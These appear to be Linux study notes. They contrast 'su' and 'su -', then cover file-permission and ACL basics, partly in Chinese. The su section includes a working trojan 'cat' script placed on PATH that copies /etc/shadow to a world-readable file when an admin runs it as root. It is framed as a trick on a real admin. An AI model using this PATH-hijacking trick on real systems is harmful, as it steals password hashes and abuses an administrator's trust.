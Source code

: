
su - invokes a login shell after switching the user. A login shell resets most environment variables, providing a clean base.

su just switches the user, providing a normal shell with an environment nearly the same as with the old user.

Imagine, you're a software developer with normal user access to a machine and your ignorant admin just won't give you root access. Let's (hopefully) trick him.
```bash
$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; }
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0

$ chmod +x /tmp/evil_bin/cat
$ PATH="/tmp/evil_bin:$PATH"
```
Now, you ask your admin why you can't cat the dummy file in your home folder, it just won't work!

```bash
$ ls -l /home/you/dummy_file
-rw-r--r-- 1 you wheel 41 2011-02-07 13:00 dummy_file
$ cat /home/you/dummy_file
/bin/cat: Permission denied!
```

If your admin isn't that smart or just a bit lazy, he might come to your desk and try with his super-user powers:

```bash
$ su
Password: ...
# cat /home/you/dummy_file
Some important dummy stuff in that file.
# exit
Wow! Thanks, super admin!

$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2011-02-07 13:02 /tmp/shadow_copy
```
He, he.

You maybe noticed that the corrupted $PATH variable was not reset. This wouldn't have happened, if the admin invoked su - instead.
```


```bash
38、/etc/fstab复制到/data/dir，至少需要什么权限？ 
1）cp命令 有执行权限 
2）/etc目录有执行权限，fstab读权限 
3）/data目录有执行权限，dir目录有执行和写权限
```


- facl中：mask 用来设置除所有者和other以外的用户或组的权限
- 一旦设置了facl，所看到的的组权限实际是mask权限，使用chmod更改组权限实际是更改mask权限。


```
[root@centos7 /data/test]$getfacl issue.bak 
# file: issue.bak
# owner: root
# group: root
user::rw-
user:steve:rw-
group::---
mask::rw-
other::---
```

![](png/2019-10-14-14-59-06.png)